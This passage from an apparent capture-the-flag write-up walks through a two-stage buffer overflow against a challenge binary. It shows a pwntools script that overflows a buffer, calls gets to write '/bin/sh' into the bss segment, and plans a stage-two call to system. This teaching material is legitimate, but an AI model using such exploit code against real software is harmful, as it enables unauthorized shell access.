 Cool we get the `Input some text:` message on the screen.

We can quickly confirm that we have written the `/bin/sh` string to the bss segment by attaching the process to gdb and breaking at vuln.

```python
from pwn import *

# Function addresses
gets = p32(0x8048400)
vuln = p32(0x080485b1)
system = p32(0x08048420)

p = process("./server")
gdb.attach(p.pid,  "b vuln")
# Stage 1
padding = b"\x41" * 60
p.recv()
bss = p32(0x0804a080)
p.sendline(padding + gets + vuln + bss)
# send /bin/sh
p.sendline(b"/bin/sh")
p.interactive()
```

We can hit continue once and then on the second break we can inspect the bss address.

![gdb](/assets/img/ctflearn/shell-time-gdb.png)

We have our string there. So we have successfully completed stage 1.

### Stage 2

For stage 2 all we need to do is overflow the buffer again and this time call system with the address of bss segment as the argument.
